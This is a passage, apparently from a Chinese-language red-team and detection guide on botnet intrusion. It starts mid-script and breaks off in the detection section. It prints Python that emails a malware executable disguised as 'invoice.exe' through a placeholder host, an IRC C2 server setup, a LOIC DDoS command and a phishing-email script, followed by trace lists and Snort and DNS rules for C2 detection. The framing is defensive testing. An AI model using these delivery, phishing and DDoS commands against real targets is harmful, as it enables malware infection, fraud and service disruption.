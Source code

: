      part.set_payload(open('test_malware.exe', 'rb').read())
     encoders.encode_base64(part)
     part.add_header('Content-Disposition', 'attachment; filename="invoice.exe"')
     msg.attach(part)
     with smtplib.SMTP('smtp.malicious.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
3. **C2服务器配置**：
   - 部署简单的IRC C2服务器：
     ```bash
     sudo apt install inspircd
     inspircd --config /etc/inspircd/inspircd.conf
     ```
4. **测试执行**：
   - 模拟DDoS攻击：
     ```bash
     loic http://test-target.com -method HTTP -threads 100
     ```
   - 模拟钓鱼分发：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     msg = MIMEText("Click here: http://test-malicious.com")
     msg['Subject'] = 'Urgent: Account Verification'
     msg['From'] = 'attacker@malicious.com'
     msg['To'] = 'victim@test.com'
     with smtplib.SMTP('smtp.malicious.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
5. **结果分析**：
   - 验证DDoS攻击效果或钓鱼邮件分发成功率。
6. **日志收集**：
   - 收集DNS、网络流量、邮件和端点日志，分析僵尸网络活动痕迹。

## 测试留痕
僵尸网络入侵可能留下以下痕迹：
- **端点日志**：受感染主机的异常进程、文件修改或网络连接。
- **网络流量**：高频HTTP、IRC或DNS流量，或与C2服务器的通信。
- **DNS查询**：解析到C2服务器的异常域名。
- **邮件服务器日志**：大规模钓鱼邮件的发送记录。
- **防火墙/IDS告警**：触发C2、DDoS或恶意软件相关的检测规则。

## 检测规则/思路
由于僵尸网络入侵多发生在目标组织视野之外，检测需结合多种手段：
- **网络流量监控**：
  - 检测与C2服务器的异常通信，关注HTTP、IRC或DNS流量。
  - 示例Snort规则：
    ```snort
    alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"Suspicious C2 Traffic"; content:"irc"; sid:1000001;)
    ```
- **DNS监控**：
  - 检测解析到C2服务器的异常域名。
  - 示例DNS防火墙规则：
    ```plaintext
    Rule: Detect Suspicious C2 Domains
    Condition: DNS query resolves to <KNOWN_C2_IP>
    Action: Alert
    ```
- **邮件监控**：